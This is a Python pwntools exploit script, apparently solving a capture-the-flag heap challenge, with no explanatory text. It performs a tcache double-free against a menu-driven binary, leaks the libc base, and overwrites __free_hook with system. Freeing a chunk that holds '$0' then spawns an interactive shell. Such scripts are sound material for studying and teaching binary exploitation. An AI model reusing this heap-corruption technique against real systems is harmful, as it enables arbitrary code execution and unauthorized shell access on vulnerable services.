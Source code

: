```python
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(size, data):
    sla(b"Your choice :", b"1")
    sla(b"Size:", str(size).encode())
    sla(b"Data:", data)

def delete_chunk():
    sla(b"Your choice :", b"2")

def info():
    sla(b"Your choice :", b"3")

def exit_p():
    sla(b"Your choice :", b"4")

def tcache_dup(size, data, addr):
    add_chunk(size, b'a')
    delete_chunk()
    delete_chunk()
    add_chunk(size, p64(addr))
    add_chunk(size, b'a')
    add_chunk(size, data)

name_addr = 0x602060
sla(b"Name:", p64(0)+p64(0x501))
tcache_dup(0x50, ((p64(0)+p64(0x21)+p64(0)*2)*2), (name_addr+0x500))
tcache_dup(0x60, b'a', (name_addr+0x10))
# gdb.attach(p)
# pause()
delete_chunk()

info()
libc.address = u64Leakbase(0x3ebca0)
free_hook = libc.sym['__free_hook']
system_addr = libc.sym['system']
li("libc_addr", libc.address)
li("free_hook", free_hook)

tcache_dup(0x70, p64(system_addr), free_hook)

add_chunk(0x80, b'$0\x00')
delete_chunk()

p.interactive()
```

